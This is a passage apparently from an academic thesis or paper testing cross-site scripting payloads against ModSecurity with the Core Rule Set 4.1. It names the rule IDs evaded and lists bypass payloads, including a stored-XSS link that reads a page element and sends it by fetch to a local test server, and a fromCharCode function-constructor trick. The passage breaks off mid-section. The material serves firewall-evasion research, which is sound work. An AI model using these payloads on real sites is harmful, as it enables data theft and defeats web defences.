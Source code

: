 As the payload is meant to be injected into an html document, HTML escaping can be used to escape certain characters.
On escaping of the character \verb|a| in \verb|j&#97vascript|, the payload evaded the rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0]&#46innerHTML|, the payload evaded rule \verb|941180|.
Finally one of the \verb|/| in the url-string given to the JavaScript function \verb|fetch| is escaped by prepending it with a \verb|\|.
Escaping any normal character with a \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

\begin{lstlisting}[style=basicStyle, caption=stored xss bypass payload]
<a href=j&#97vascript:var secret = document.getElementsByName('name')[0]&#46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a>
\end{lstlisting}

\subsubsection{Function Constructor + String Concatenation + fromCharCode()}
\label{sec:charcodemultiiter}
Following up on the idea to split the character sequence \verb|String.fromCharCode| into multiple segments, which was stated during the single iteration evaluation under Section~\ref{sec:charcodesingleiter}, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
String.fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)
\end{lstlisting}

was split into two parts using the function constructor and string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)')();
\end{lstlisting}

This payload successfully bypasses the ModSecurity firewall configured to use the CRS4.1. In order to make this payload execute by itself, another use of the function constructor and string concatenation was applied:

